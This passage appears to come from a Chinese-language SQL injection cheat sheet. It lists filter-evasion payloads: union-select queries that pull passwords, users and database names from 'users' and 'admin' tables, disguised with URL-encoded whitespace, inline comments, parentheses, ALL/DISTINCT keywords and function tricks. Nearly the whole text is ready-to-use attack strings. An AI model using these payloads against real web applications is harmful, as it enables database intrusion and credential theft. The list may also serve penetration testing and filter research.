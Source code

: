 (7) 其他

```
\Nunion select 1,2,3 %23

null union select 1,2,3 %23
```



(8)函数

```
and  MD5('a') union select 1,password,database() from users--+

and binary @ union select 1,password,3 from users--+

and  ST_X(Point(1, 2)) union select 1,password,database() from users--+
```





## 位置二

(1) 空白符

```
%09,%0a,%0b,%0c,%0d,%20
id= 1  union%0aselect 1,user,3 from admin
```

(2)注释

```
/*!*/ /**/
id= 1  union /**/select 1,user,3 from admin
```

(3)括号

```
union(select  1,(password),3,4,5,6 from(users)) %23
```

(4) ALL | DISTINCT | DISTINCTROW

```
union ALL select  1,password,3 from users %23
```

(5)函数分隔

```
%09%0A
%0D%0b
%0b%0A
%09%0C
%09%23%0A
--%0A
%23%0A
--+\N%0A
%23%f0%0A
...
union%23%0Aselect  1,password,3 from users %23

union-- xx%0Aselect  1,password,3 from users %23
```
